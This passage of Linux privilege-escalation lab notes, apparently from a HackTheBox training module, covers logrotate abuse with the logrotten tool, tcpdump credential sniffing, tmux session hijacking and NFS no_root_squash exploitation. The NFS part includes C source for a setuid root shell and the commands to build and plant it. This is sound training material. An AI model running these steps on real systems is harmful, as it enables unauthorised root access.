 3. Trigger log rotate (where log files are accessible, for example log files are in /home/htb-student/backups/access.log)
```
echo test > /home/htb-student/backups/access.log
```
4. Run logrotten
```
./logrotten -p ./payload /home/htb-student/backups/access.log
```
# tcpdump
If tcpdump is installed, unprivileged users may be able to capture network traffic, including, in some cases, credentials passed in cleartext
# NFS
```
showmount -e 10.129.2.12
```
```
cat /etc/exports
```
```
rw,no_root_squash
```
For example, we can create a SETUID binary that executes /bin/sh using our local root user. We can then mount the /tmp directory locally, copy the root-owned binary over to the NFS server, and set the SUID bit.
1. Create a simple binary, mount the directory locally, copy it, and set the necessary permissions.
```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
```
```
shell.c
```
```
gcc shell.c -o shell
```
```
root@Pwnbox:~$ sudo mount -t nfs 10.129.2.12:/tmp /mnt
```
```
root@Pwnbox:~$ cp shell /mnt
```
```
root@Pwnbox:~$ chmod u+s /mnt/shell
```
2. Run the shell app on the host machine
```
./shell
```
```
id
```
```
root
```
# tmux
If we can compromise a user in the `dev` group, we can attach to this session and gain root access.